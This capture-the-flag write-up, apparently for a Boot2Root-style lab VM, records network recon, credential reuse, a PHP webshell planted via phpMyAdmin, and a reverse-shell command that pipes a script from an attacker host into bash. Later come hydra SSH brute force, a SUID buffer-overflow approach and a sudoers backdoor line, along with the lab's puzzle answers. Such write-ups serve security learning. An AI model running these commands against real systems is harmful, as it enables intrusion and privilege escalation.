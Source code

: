 *INFO GATHERING*

As the network config changes depending on the virtualization system used, we start by getting our IP address and scanning the network

```ifconfig```

```nmap -T4 <Network>```

![](./img/01-ifconfig.png)
![](./img/02-nmap_network.png)

Thanks to the info obtained, we can test our connectivity to the system and know the target OS based on the TTL

```ping <TargetIP>```

![](./img/03-ping.png)

As the TTL is 64, we can assume that the server is running on Linux. We can proceed with the port scan

```nmap -sV -sC -p- -T4 <TargetIP>```

![](./img/04-nmap_target.png)

The interesting open ports found are 21-ftp, 22-ssh, 80-http, 143-imap, 443-https, 993-ssl/imap. After examination, nothing seemed vulnerable in the ftp, http and ssh services.


Inspecting the https service, we discovered three different directories

```dirb https://<TargetIP>```

![](./img/05-dirb.png)

The directories /phpmyadmin and /webmail need authentication, we'll thus focus on /forum

In the /forum webpage, we found a list of users as well as some posts. One of those contains a log report, posted by lmezard. Reading carefully, we encountered a logging attempt from a user called "!q\]Ej?*5K5cy*AJ"

![](./img/06-forum_post.png)

*EXPLOITATION*

We intuit that the username was in fact a password. As the next succesfull login was done by lmezard, we could login with these credentials.

Once logged in as lmezard, we got their email address by having a look at their profile page. We now have the user's email : laurie@borntosec.net

![](./img/07-forum_profile.png)

Using this email address and the previously obtained password, we successfully logged in the /webmail service. Checking the inbox, we encounter an exchange about access to the database, giving us the credentials for the user's database root.

![](./img/08-db_creds.png)

We can now authenticate in the /phpmyadmin service, gaining access to the DB. As the compromised user is root, it is likely that we have file permissions on the system. Therefore, we can try to gain access to the server by injecting PHP code to an accessible file by making use of a reverse shell.

![](./img/09-RCE.png)

```https://<TargetIP>/forum/templates_c/rce.php?cmd=curl <AttackerIP>:<HttpPort>/shell.sh | bash```


*POST EXPLOITATION*

After some basic local enumeration, we can get the following information:
- We are indeed in the target system, as the local IP is the same as the target IP
- The user running the web app is www-data
- The kernel version is Linux ? (Read writeup 2!)
- We have reading permissions over /home/LOOKATME/password

Reading the file reveals the system credentials for lmezard, although ssh connection is restricted for this user.

```cat /home/LOOKATME/password```

```ssh lmezard@<IP>```

```su lmezard```

![](./img/10-lmezard.png)

**fun**

In lmezard's home directory, we can find a compressed file called "fun" and a README. We download and decompress the file for further analysis.

```nc -nlv <port> > fun``` in attacker

```nc <IP> <port> < fun``` in target system

```tar -xvf ./fun```

The README suggests that solving the challenge will allow us access to the user laurie via SSH.

Analyzing fun, we get pieces of information to reconstruct the password. 

```cat ft_fun/* | grep printf | grep -v haha```

```cat ft_fun/* | grep getme -A 3 | grep -v haha```

```cat ft_fun/* | grep return | grep -v haha```

We deduce that the password lenght is 12, ending with "wnage" and that we need to hash the resulting string before attempting to log in, using SHA256. The characters left to order are "Iepthar".

In order to automate the login attempts, we employed our own password generation script, and hydra, to brute force the attempts. The script generates every possible permutation of the left characters, joins it to the known piece of password, and hashes the result.

```python3 laurie.py | awk '{print $5}' > laurie_passwd.txt```

```hydra -l laurie -P ./laurie_passwd.txt <TargetIP> ssh -v```

Hydra returns one successful login, using the string "Iheartpwnage", hashed.

**bomb**

The files present in laurie's home directory are a binary executable file called "bomb" and a README, explaining us how to log in as the user thor.

The bomb is a program composed of six levels, each one waiting for the user's input and, in case of error, exploding. The README helps us, giving us some hints and stating that, by joining the inputs used to defuse each phase, we can obtain thor's password.

In order to understand how to solve each level, we decompiled the file using the online service "https://dogbolt.org/".

***Phases***

- Phase 1 : compares the input with the string "Public speaking is very easy." -> input : "Public speaking is very easy."

- Phase 2 : takes 6 numbers as input, input[i + 1] = input[i] * (input[i] + 1), with 1 as input[0] -> input : "1 2 6 24 120 720"

- Phase 3 : takes a combination of one number, one char and another number. 7 combinations work, but thanks to the hints, we can keep only 3 of them : "1 b 214 / 2 b 755 / 7 b 524" -> input : "1 b 214"

- Phase 4 : one number expected, > 0. Brute forcing it, we got "9"

- Phase 5 : receives a string, applies an algorithm on every character. The result should be equal to "giants". Testing every letter, we got -> input : "opekmq" (or opekma)

- Phase 6 : receives 6 numbers. Each one should be between 0 and 6, and 2 consecutive numbers can't be equal. Knowing that, we could brute force the password -> input : "4 2 6 3 1 5"

- Secret phase : can be accessed by adding "austinpowers" to the fourth input -> "9 austinpowers". Receives a number > 0 and <= 1001. By brute force (again) -> input : "1001" (Turned out to be useless)

The subject hints that we have to swap the second-to-last and third-to-last characters to form the right password.

- Final password for thor: Publicspeakingisveryeasy.126241207201b2149opekmq426135

**turtle**

The README file present in thor's home directory tells us to use the result of the challenge "turtle" as password for "zaz".
In "turtle" we find instructions in French seeming to describe a path. Drawing it on paper, we end up writting "SLASH".
We have to "digest" the password to use it. We therefore apply md5 (message digest) on "SLASH".

```echo -n "SLASH" | md5sum```

**buffer overflow**

The directory /home/zaz contains an interesting file, a SUID binary that belongs to root.

```./exploit_me Hello``` (command output)

```strings ./exploit_me```

The program prints the argument received. Exploring the readable content of the file reveals the use of the insecure function strcpy. Assuming a buffer being used, we can try to perform a buffer overflow in order to gain root access by executing a shellcode.

The file decompilation supports our idea. The program uses a buffer of 140 bytes.

1. Localize the buffer address to overwrite the Extended Instruction Pointer (EIP)
2. Fill the buffer with a NOP sled, allowing imprecisions. This will ensure the execution of the payload
3. Concatenate the shellcode, executing /bin/sh
4. Smash EIP with the buffer memory address obtained in step one. This directs the execution flow to the NOP sled

We coded a python script to generate the final payload.

```./exploit_me $(python payload.py)```

```echo 'zaz ALL=NOPASSWD: ALL' >> /etc/sudoers && sudo su```

```id```

![](./img/11-root.png)

